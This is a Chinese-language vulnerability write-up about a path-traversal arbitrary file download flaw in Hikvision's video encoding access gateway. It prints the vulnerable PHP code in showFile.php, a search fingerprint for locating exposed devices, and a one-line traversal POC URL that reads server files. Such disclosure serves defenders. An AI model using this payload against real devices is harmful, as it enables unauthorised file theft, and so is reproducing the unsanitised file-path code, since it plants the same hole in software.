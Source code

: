# HIKVISION 视频编码设备接入网关 showFile.php 任意文件下载漏洞

# HIKVISION 视频编码设备接入网关 showFile.php 任意文件下载漏洞

## 漏洞描述

海康威视视频接入网关系统在页面`/serverLog/showFile.php`的参数fileName存在任意文件下载漏洞

## 漏洞影响

```
HIKVISION 视频编码设备接入网关
```

## 网络测绘

```
title="视频编码设备接入网关"
```

## 漏洞复现

登录页面

![image-20220519174129368](/images/202205191743965.png)

漏洞文件为 `showFile.php`, 其中 `参数 fileName` 没有过滤危险字符，导致可文件遍历下载

```
<?php
					$file_name = $_GET['fileName'];
					$file_path = '../../../log/'.$file_name;
					$fp = fopen($file_path, "r");
					while($line = fgets($fp)){
						$line = nl2br(htmlentities($line, ENT_COMPAT, "utf-8"));
						echo '<span style="font-size:16px">'.$line.'</span>';
					}
					fclose($fp);
?>
```

POC

```
/serverLog/showFile.php?fileName=../web/html/main.php
```

![image-20220519174337483](/images/202205191743535.png)

